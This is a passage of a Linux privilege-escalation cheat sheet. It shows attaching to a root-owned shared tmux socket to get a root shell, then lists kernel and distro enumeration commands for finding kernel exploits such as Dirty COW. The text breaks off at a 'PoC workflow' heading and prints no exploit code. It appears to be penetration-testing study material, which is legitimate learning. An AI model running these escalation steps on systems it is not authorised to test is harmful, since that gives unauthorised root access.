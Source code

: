 ### 🔐 Check Socket Permissions
```bash
ls -la /shareds
```

**Expected Output:**
```
srw-rw---- 1 root devs ...
```

### 👥 Check Group Membership
```bash
id
```

**Expected Output:**
```
groups=...,1011(devs)
```

### 📥 Attach to Session
```bash
tmux -S /shareds
id
```

**Result:**
```bash
uid=0(root) gid=0(root) groups=0(root)
```

---

# Kernel Exploits

* **What:** Kernel-level exploits leverage kernel vulnerabilities to run code as `root`.

* **Example:** Dirty COW — `CVE-2016-5195`.

* **Why common:** Legacy/unpatched systems; sometimes excluded from patching for compatibility.

* **Quick identification:**

  * Get kernel string:

```bash
uname -a
```

* Get distro/release info:

```bash
cat /etc/lsb-release
```

* Search the exact kernel string (e.g. `"4.4.0-116-generic exploit"`) to find PoCs.

* **PoC workflow (as given):**
